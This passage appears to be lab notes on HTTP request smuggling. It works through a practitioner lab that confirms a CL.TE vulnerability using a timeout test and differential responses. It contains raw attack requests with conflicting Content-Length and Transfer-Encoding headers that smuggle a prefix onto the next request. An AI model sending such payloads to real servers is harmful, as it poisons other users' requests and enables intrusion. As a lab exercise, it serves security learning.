 ```bash
GET /404 HTTP/1.1
Foo: x
```

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```bash
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it

### PRACTITIONER Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Let's first try:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
X\r\n
```
When we send that request we don't get a response right away and eventually it times out
This is a strong indication that the frontend server is using CL and the backend is using TE 

To confirm CL TE, we'll use differential responses:
The attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
GET /whateverDoesntExist HTTP/1.1\r\n
X-Ignore: X
```
**Make sure there is no `\r\n` after `X-Ignore: X` because we want our normal request to be prepended without `\r\n`, i.e. we want it to be right after the `X` e.g.:**
Example of how it'll be handled on the backend:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
GET /whateverDoesntExist HTTP/1.1\r\n
X-Ignore: XGET / HTTP/1.1
Host: ...
```